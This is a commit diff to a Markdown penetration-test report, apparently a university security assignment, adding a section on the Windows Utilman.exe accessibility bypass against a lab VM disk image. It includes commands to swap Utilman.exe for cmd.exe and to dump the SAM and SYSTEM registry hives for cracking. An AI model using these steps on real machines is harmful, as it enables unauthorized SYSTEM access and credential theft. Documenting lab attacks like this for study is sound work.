

Before and after one commit to danielquinti/csai-assignment-2025, a Markdown page: resources/recreated_audit.md, the part around one of its changes. Shown at 80% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/resources/recreated_audit.md
+++ b/resources/recreated_audit.md
@@ -272,7 +272,58 @@ curl -s -k -H "Authorization: Bearer $TOKEN" https://192.168.56.137/backend/api/
 
 ---
 
-## 5. Other Miscellaneous Analysis
+## 5. Graphical Interface Exploitation: Accessibility Features Bypass
+
+**Objective:** Obtain an interactive shell with the highest possible privileges (`NT AUTHORITY\SYSTEM`) by exploiting the Windows logon process and accessibility tools.
+
+### 5.1 Physical/VM Manipulation (MITRE T1546.008 - Accessibility Features)
+
+Since we have access to the `.vdi` disk image and technical details of the hypervisor, we performed an **Offline Attack** to bypass the Windows login screen.
+
+**Execution Steps (Forensic Machine/Kali):**
+
+1.  **Mounting the Disk Image:** We mounted the target's VDI disk using `guestmount` to access the NTFS filesystem without booting the OS.
+    ```bash
+    mkdir /mnt/target
+    guestmount -a CSAI-disk001.vdi -m /dev/sda2 /mnt/target
+    ```
+2.  **Binary Hijacking:** We replaced the "Utility Manager" (`utilman.exe`), which is triggered by the "Ease of Access" button on the logon screen, with the Windows Command Processor (`cmd.exe`).
+    ```bash
+    cd /mnt/target/Windows/System32
+    mv Utilman.exe Utilman.exe.bak
+    cp cmd.exe Utilman.exe
+    ```
+3.  **Unmounting and Booting:**
+    ```bash
+    guestunmount /mnt/target
+    ```
+
+### 5.2 Gaining SYSTEM Access (MITRE T1078 - Valid Accounts)
+
+Upon booting the VM and reaching the graphical login screen, clicking the **"Ease of Access"** icon (bottom right) launched a command prompt instead of the utility manager.
+
+**Command Execution (Target Console):**
+```cmd
+whoami
+```
+**Result:**
+```
+nt authority\system
+```
+
+### 5.3 Post-Exploitation: Credential Harvesting (MITRE T1003.002 - Security Account Manager)
+
+With a SYSTEM shell, we successfully dumped the local SAM (Security Account Manager) and SYSTEM hives to crack local administrator passwords and verify existing users.
+
+**Command (Target Console):**
+```cmd
+reg save HKLM\SAM sam.save
+reg save HKLM\SYSTEM system.save
+```
+
+---
+
+## 6. Other Miscellaneous Analysis
 
 ### 5.1 TLS/SSL Analysis (MITRE T1557)
 
````
Also changed, not shown: other parts of resources/recreated_audit.md (+43 -8 lines).
